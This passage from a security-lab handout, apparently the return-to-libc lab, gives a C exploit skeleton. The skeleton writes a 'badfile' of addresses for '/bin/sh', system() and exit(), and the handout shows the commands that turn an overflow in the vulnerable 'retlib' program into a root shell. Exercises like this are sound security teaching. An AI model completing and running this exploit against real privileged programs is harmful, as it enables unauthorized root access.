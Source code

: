 \paragraph{Using C.}
We also provide you with a skeleton of C code, with the essential 
parts left for you to fill out.


\begin{lstlisting}
/* exploit.c */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
  char buf[40];
  FILE *badfile;

  badfile = fopen("./badfile", "w");

  /* You need to decide the addresses and 
     the values for X, Y, Z. The order of the following 
     three statements does not imply the order of X, Y, Z.
     Actually, we intentionally scrambled the order. */
  *(long *) &buf[X] = some address ;   //  "/bin/sh"    (*@\ding{80}@*)
  *(long *) &buf[Y] = some address ;   //  system()     (*@\ding{80}@*)
  *(long *) &buf[Z] = some address ;   //  exit()       (*@\ding{80}@*)

  fwrite(buf, sizeof(buf), 1, badfile);
  fclose(badfile);
}
\end{lstlisting}

You need to figure out the addresses in lines marked by , as well as to
find out where to store those addresses (i.e., the values 
for \texttt{X}, \texttt{Y}, and \texttt{Z}). If your values are incorrect, 
your attack might not work. In your report, you need to 
describe how you decide the values for {\tt X}, {\tt Y} and {\tt
Z}. Either show us your reasoning or, if you use a trial-and-error approach,
show your trials.


After you finish the above program, compile and run it; this will
generate the contents for \texttt{badfile}. Run the vulnerable program 
\texttt{retlib}. If your exploit is implemented correctly, when the function
\texttt{bof()} returns, it will return to the \texttt{system()} function,
and execute \texttt{system("/bin/sh")}. If the vulnerable program is
running with the root privilege, you can get the root shell at this
point.

\begin{lstlisting}
$ gcc -o exploit exploit.c
$./exploit         // create the badfile
$./retlib          // launch the attack by running the vulnerable program
# <---- You've got a root shell! 
\end{lstlisting}




